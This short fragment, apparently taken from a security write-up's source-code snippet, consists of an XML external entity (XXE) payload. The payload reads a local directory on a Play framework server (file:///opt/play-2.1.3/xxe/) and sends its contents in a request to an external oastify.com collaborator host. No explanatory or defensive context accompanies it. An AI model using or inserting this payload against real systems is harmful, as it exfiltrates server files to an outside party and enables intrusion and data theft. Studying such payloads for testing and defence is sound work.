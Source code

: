 <!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM '84afje4zwj9h2aam2n55unvbk2qtej28.oastify.com/BLAH?%p1;'>">
%p2;
